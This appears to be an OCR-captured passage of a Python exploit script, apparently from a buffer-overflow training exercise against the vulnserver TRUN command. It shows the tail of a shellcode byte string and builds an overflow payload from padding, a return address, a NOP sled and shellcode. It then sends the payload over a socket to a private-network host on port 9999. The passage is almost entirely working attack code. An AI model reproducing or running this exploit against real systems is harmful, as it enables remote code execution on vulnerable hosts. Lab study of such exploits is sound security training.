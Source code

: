 ```python
b"\x90\xe6\x1e\xcd\xc7\xb0\xc8\xab\xb1\x72\xa2\x65\x6d\xdd\x22"
b"\xf3\x5d\xde\x34\xfc\x8b\xa8\xd8\x4d\x62\xed\xe7\x62\xe2\xf9"
b"\x90\x9e\x92\x06\x4b\x1b\xb2\xe4\x59\x56\x5b\xb1\x08\xdb\x06"
b"\x42\xe7\x18\x3f\xc1\x0d\xe1\xc4\xd9\x64\xe4\x81\x5d\x95\x94"
b"\x9a\x0b\x99\x0b\x9a\x19")

shellcode = b"A" * 2003 + b"\xaf\x11\x50\x62" + b"\x90" * 16 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = b"TRUN /.:/" + shellcode

	s.send((payload))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
